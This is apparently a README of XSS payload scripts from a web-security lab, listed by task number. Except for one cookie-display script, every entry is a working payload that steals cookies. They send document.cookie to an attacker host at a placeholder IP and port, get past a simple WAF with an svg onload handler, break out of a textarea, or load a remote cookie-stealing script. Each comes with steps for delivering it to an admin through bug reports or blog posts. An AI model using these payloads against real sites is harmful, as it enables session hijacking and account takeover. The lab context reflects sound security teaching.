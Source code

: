 # Second Laboratory (XSS) Scripts

---

### Get Own Cookies On Search (Task 1.2):

```html
<script>
	document.write(document.cookie);
</script>
```

- Search above Script

---

### Steal Admin's Cookies On Bug / Feature Report (Task 1.4):

```html
<script>
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
</script>
```

- Fill <IP> & <PORT> (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On Bug / Feature Report Bypassing Simple WAF (Task 2.1):

```html
<svg onload="
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
"></svg>
```

- Fill <IP> & <PORT> (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On BlogPosts Review (Task 3.2):

```html
</textarea>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
<textarea>
```

- Fill <IP> & <PORT> (Attacker Domain)
- Post above Script as Blog Content

---

### Steal Admin's Cookies On BlogPosts Review Using Remote Scripts (Task 3.3):

```html
</textarea>
    <script src="http://<IP>:<PORT>/GetCookie.js"></script>
<textarea>
```

- Fill <IP> & <PORT> (GetCookie.js Domain)
- Post above Script as Blog Content

#### *GetCookie.js*

```js
const HTTP = new XMLHttpRequest();
const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
HTTP.open('GET', URL, false);
HTTP.send();
```

- Fill <IP> & <PORT> (Attacker Domain)

---

